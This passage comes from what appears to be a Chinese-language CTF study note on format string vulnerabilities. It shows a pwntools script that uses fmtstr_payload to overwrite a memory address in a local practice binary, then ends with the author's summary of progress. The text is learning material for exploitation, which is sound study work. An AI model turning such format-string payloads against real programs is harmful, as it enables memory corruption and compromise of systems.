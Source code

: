 这样需要补充的长度都是222。

![image-20220117173001801](格式化字符串学习.assets/image-20220117173001801.png)



也可以用pwntools的函数`fmtstr_payload`来简化：

```python
from pwn import *
from LibcSearcher import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process('./overwrite')
b_addr = 0x0804A028
payload = fmtstr_payload(6,{b_addr:0x12345678})
p.sendline(payload)

```





# 总结

格式化字符串告一段落，基本的格式化字符串漏洞算是清楚了，ctfwiki的例题没有做，等之后再来补了，暂时先以广度为主。